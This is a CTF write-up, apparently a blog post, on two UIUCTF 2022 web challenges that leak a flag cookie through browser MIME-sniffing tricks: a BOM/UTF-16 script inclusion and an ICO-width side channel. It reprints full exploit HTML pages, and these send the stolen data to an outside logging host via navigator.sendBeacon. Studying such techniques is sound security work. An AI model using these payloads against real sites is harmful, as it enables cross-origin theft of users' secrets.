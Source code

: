 ```yaml
---
title: UIUCTF 2022 Notes
catalog: true
date: 2022-08-01 20:31:10
tags: [Security]
categories: [Security]
photos: /img/uiuctf-ctf-2022-writeup/cover-en.png
---
```


I didn't participate in this CTF, but I found two interesting problems related to content type and I want to write down the solutions.

<!-- more -->

## modernism(21 solves)

The code is super simple:

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[A-Za-z]+}$
    return Response(prefix+flag, mimetype="text/plain")
```

It will hex decode the data you send and add it to the flag in the response. An admin bot will visit your page with the flag in the cookie.

I originally thought that `text/plain` cannot be loaded as a script, even if `X-Content-Type-Options: nosniff` is not added. Later, I found out that I remembered it wrong, and it is actually possible.

The relevant code is in [third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/106.0.5211.0:third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc;l=79;bpv=0;bpt=1)

``` c
// Helper function to decide what to do with with a given mime type. This takes
// - a mime type
// - inputs that affect the decision (is_same_origin, mime_type_check_mode).
//
// The return value determines whether this mime should be allowed or blocked.
// Additionally, warn returns whether we should log a console warning about
// expected future blocking of this resource. 'counter' determines which
// Use counter should be used to count this. 'is_worker_global_scope' is used
// for choosing 'counter' value.
bool AllowMimeTypeAsScript(const String& mime_type,
                           bool same_origin,
                           AllowedByNosniff::MimeTypeCheck mime_type_check_mode,
                           WebFeature& counter) {
  using MimeTypeCheck = AllowedByNosniff::MimeTypeCheck;

  // If strict mime type checking for workers is enabled, we'll treat all
  // "lax" for worker cases as strict.
  if (mime_type_check_mode == MimeTypeCheck::kLaxForWorker &&
      RuntimeEnabledFeatures::StrictMimeTypesForWorkersEnabled()) {
    mime_type_check_mode = MimeTypeCheck::kStrict;
  }

  // The common case: A proper JavaScript MIME type
  if (MIMETypeRegistry::IsSupportedJavaScriptMIMEType(mime_type))
    return true;

  // Check for certain non-executable MIME types.
  // See:
  // https://fetch.spec.whatwg.org/#should-response-to-request-be-blocked-due-to-mime-type?
  if (mime_type.StartsWithIgnoringASCIICase("image/")) {
    counter = WebFeature::kBlockedSniffingImageToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("audio/")) {
    counter = WebFeature::kBlockedSniffingAudioToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("video/")) {
    counter = WebFeature::kBlockedSniffingVideoToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("text/csv")) {
    counter = WebFeature::kBlockedSniffingCSVToScript;
    return false;
  }

  if (mime_type_check_mode == MimeTypeCheck::kStrict) {
    return false;
  }
  DCHECK(mime_type_check_mode == MimeTypeCheck::kLaxForWorker ||
         mime_type_check_mode == MimeTypeCheck::kLaxForElement);

  // Beyond this point we handle legacy MIME types, where it depends whether
  // we still wish to accept them (or log them using UseCounter, or add a
  // deprecation warning to the console).

  if (EqualIgnoringASCIICase(mime_type, "text/javascript1.6") ||
      EqualIgnoringASCIICase(mime_type, "text/javascript1.7")) {
    // We've been excluding these legacy values from UseCounter stats since
    // before.
    return true;
  }

  if (mime_type.StartsWithIgnoringASCIICase("application/octet-stream")) {
    counter = kApplicationOctetStreamFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("application/xml")) {
    counter = kApplicationXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/html")) {
    counter = kTextHtmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/plain")) {
    counter = kTextPlainFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/xml")) {
    counter = kTextXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/json") ||
             mime_type.StartsWithIgnoringCase("application/json")) {
    counter = kJsonFeatures[same_origin];
  } else {
    counter = kUnknownFeatures[same_origin];
  }

  return true;
}
```

However, even if it can be loaded as a script, it is not easy to make it executable because the flag contains `{}`.

The unexpected solution is to use a class. Adding `class` in front of the flag makes it `class uiuctf{fakeflag}`, and with this, you can get the entire string that was declared when the class was declared by using `uiuctf+''`, and then you get the flag.

The expected solution is to add a BOM in front of the flag, so that JS interprets the entire script in UTF-16, and the original flag becomes strange Chinese characters, so it won't break. You can add `++window.` in front, and then look at each property of the window.

The author's [solution](https://codesandbox.io/s/modernism-sol-05tjvc?file=/index.html:0-1544) is as follows:

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <!--
      we use a BOM (byte order mark) to change the encoding
      of the document and cause it to be interpreted as valid JS

      BOM = magic unicode character at start of document 
        to indicate encoding and endianness

      chrome supports the UTF16-BE and UTF16-LE BOMs:
      FE FF and FF FE

      we then encode: ++window. as UTF16-BE
      2B2B7769006E0064006F0077002E

      so the JS executed is:
      ++window.RANDOM_UNICODE_CHARACTERS
      
      - luckily, when decoding the flag format as UTF-16 BE, 
        the resultant characters will always be a valid JS identifier
        - this is NOT true in precisionism, due to the space and ! characters in the suffix

      Finally, we iterate through the `window` object,
      and utf16-be encode the added property to get the flag
    -->
    <script src="https://modernism-web.chal.uiuc.tf/?p=FEFF002B002B00770069006E0064006F0077002E"></script>
    <script>
      const encutf16=(s)=>[...s].flatMap(c=>[String.fromCharCode(c.charCodeAt(0)>>8),String.fromCharCode(c.charCodeAt(0)&0xff)]).join('');
      const flag = Object.getOwnPropertyNames(window).map(x=>encutf16(x)).find(x=>x.startsWith('uiuctf{'));
      navigator.sendBeacon("//hc.lc/log2.php?modernism",flag);
    </script>
  </body>
</html>
```


## precisionism(3 solves)

This problem is similar to the previous one, but with some additional content at the end:

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[0-9A-Za-z]{8}}$
    return Response(prefix+flag+b"Enjoy your flag!", mimetype="text/plain")
```

Because of the additional content, the previous two methods cannot be used.

The expected solution for this problem is to make the response an ICO format, and then put the part to be leaked into the width, so that you can get the width of the image cross-origin, and get one byte at a time:

The author's [solution](https://codesandbox.io/s/precisionism-sol-17tev5?file=/index.html:0-1039) is as follows:

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <h1>
      This is a static template, there is no bundler or bundling involved!
    </h1>
    <script>
      const sleep = () => new Promise((res) => setTimeout(res, 50));
      async function exfil(i) {
        let img = new Image();
        let p = "00000100020001010000010020006804000026000000";
        if (i>0) p = p.slice(0, -i*2);
        img.src = `https://precisionism-web.chal.uiuc.tf/?p=${p}`;
        await img.decode();
        return img.width;
      }
      async function main() {
        for (let i = 0; i < 16; i++) {
          let c = await exfil(i);
          console.log(String.fromCharCode(c));
          navigator.sendBeacon("//hc.lc/log2.php?precisionism",String.fromCharCode(c)+" "+c)
        }
      }
      main();
    </script>
  </body>
</html>
```

## Summary

I also studied how Chromium does mime sniffing, but it seems to have little to do with this problem, so I will note the location: https://source.chromium.org/chromium/chromium/src/+/master:net/base/mime_sniffer.cc
